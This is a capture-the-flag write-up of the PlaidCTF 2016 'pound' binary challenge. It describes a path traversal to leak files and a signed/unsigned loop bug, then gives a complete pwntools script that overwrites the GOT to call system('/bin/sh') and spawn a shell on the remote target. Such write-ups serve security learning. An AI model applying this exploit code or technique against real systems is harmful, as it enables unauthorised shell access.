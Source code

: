 ```yaml
---
layout: post
alias: "/blog/2016/04/18/plaidctf-2016-pound/"
date: 2016-04-18T06:00:03+09:00
tags: [ "ctf", "pwn", "writeup", "plaidctf" ]
---
```


# PlaidCTF 2016 pound

I like the gimmick to give the source code and compiled binaries.

## solution

### host.py

To get some required information, choose `1. Read Trump article` and send a relative path from `./tweets`.
You may want to read the paths:

-   `../pound.c`
-   `../../../../lib32/libc.so.6`
-   `../sims/sim-XXXX`
-   `../../../../proc/self/maps`

### pound.c

To make a vulnerability, you can use `0u`.
If `#define L1 0u`, `for (i=0; i < L1-1; i++)` becomes `for (i=0; i < 0xffffffff; i++)` by mixing signed and unsigned integers.

To be able to read/write somewhere, use the `char *announcement;`.
If you can modify this, read/write are done by `0. Print state`, `4. Create Announcement`.
Now, in `2. Simulate Propagate Forward` or `3. Simulate Propagate Backward`, the first loops don't terminate until it reaches a null dword.
So if you make `L1` and `L2` to `0u`, fill `char s1_name[STATE_SIZE_LEN];` and `char s2_name[STATE_SIZE_LEN];` with positives, it will reaches the `char *announcement;` and `int announcement_length;`.
When you use `2. Simulate Propagate Forward` with amount $k$, the null dword and the previous dword are increased by $k$.

To get shell, we need to know libc base address and let to call `system` with `/bin/sh`.
The both read/write can/should be done at once.
Make the `announcement` a pointer to the GOT, then read, and write the same address.
You should write `/bin/sh` and the address to `system` with `if (fgets (global.announcement, len, stdin) == NULL)` in `void create_announcement ()`, as the succeeding `strcspn(global.announcement, "\n")` acts as `system("/bin/sh", "\n")`.

### note

At this time, the GOT was like below.

``` sh
$ objdump -R sim

sim:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
0804affc R_386_GLOB_DAT    __gmon_start__
0804b040 R_386_COPY        stdin@@GLIBC_2.0
0804b060 R_386_COPY        stdout@@GLIBC_2.0
0804b00c R_386_JUMP_SLOT   printf@GLIBC_2.0
0804b010 R_386_JUMP_SLOT   strcspn@GLIBC_2.0
0804b014 R_386_JUMP_SLOT   free@GLIBC_2.0
0804b018 R_386_JUMP_SLOT   fgets@GLIBC_2.0
0804b01c R_386_JUMP_SLOT   malloc@GLIBC_2.0
0804b020 R_386_JUMP_SLOT   __gmon_start__
0804b024 R_386_JUMP_SLOT   exit@GLIBC_2.0
0804b028 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804b02c R_386_JUMP_SLOT   __isoc99_sscanf@GLIBC_2.7
0804b030 R_386_JUMP_SLOT   setvbuf@GLIBC_2.0
0804b034 R_386_JUMP_SLOT   rand@GLIBC_2.0
```

By the way, what was `int secret;`?

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host')
parser.add_argument('port', type=int)
args = parser.parse_args()
context.log_level = 'debug'

elf = ELF('sim')
libc = ELF('libc.so.6')

p = remote(args.host, args.port)

p.sendline('2')
p.recvuntil('[Smaller] State 1 Size:')
p.sendline('0u')
p.recvuntil('[Larger] State 2 Size:')
p.sendline('0u')

p.recvuntil('Enter the name of the first state:')
p.send('A' * 512)
p.recvuntil('Enter the name of the second state:')
p.send('A' * 512)
p.recvuntil('Enter Your Choice: ')
p.sendline('')

log.info('strcspn got: ' + hex(elf.got['strcspn']))
p.recvuntil('Enter Your Choice: ')
p.sendline('2')
p.sendline(str(elf.got['strcspn'] - 21))

p.recvuntil('Enter Your Choice: ')
p.sendline('2')
p.sendline(str(13))

p.recvuntil('Enter Your Choice: ')
p.sendline('0')
p.recvuntil('PSA: ')
p.recv(16)
libc_base = u32(p.recv(4)) - libc.symbols['fgets']
log.info('libc base: ' + hex(libc_base))

p.recvuntil('Enter Your Choice: ')
p.sendline('4')
p.recvuntil('Enter the length of your announcement: ')
p.sendline(str(13))
p.sendline('/bin/sh\0' + p32(libc_base + libc.symbols['system']))

time.sleep(1)
p.sendline('id')
p.interactive()
```
